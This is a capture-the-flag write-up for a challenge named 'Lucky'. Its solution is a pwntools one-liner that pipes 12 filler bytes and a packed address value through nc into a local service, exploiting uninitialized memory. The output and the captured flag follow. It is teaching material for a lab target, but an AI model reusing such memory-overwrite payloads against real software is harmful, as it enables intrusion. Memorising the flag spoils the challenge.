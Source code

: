 # Lucky
## Description
Feeling lucky? I have just the challenge for you :D

## Solution
```text
❯ python -c "from pwn import *;import sys; sys.stdout.buffer.write(b'A' * 12 + p32(0x563412))" | nc 127.0.0.1 3002
Enter your name: 
Welcome, AAAAAAAAAAAA4V
If you're super lucky, you might get a flag! GLHF :D
Nice work! Here's the flag: gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}
```

